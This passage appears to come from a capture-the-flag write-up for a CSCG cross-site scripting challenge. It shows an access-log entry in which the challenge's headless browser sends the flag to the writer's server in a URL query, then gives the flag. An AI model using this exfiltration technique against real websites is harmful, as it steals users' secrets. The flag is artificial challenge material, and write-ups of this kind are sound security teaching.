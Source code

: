 And if we submit this URL we can see something like this in the `access.log`:
```
147.75.85.99 - - [30/May/2020:14:01:49 +0200] "GET /flag?f=CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:%3E} HTTP/1.1" 404 3850 "http://stage2.xss.allesctf.net/?token=5ed24b2cb9904" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.132 Safari/537.36"
```
And here is the flag : `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`
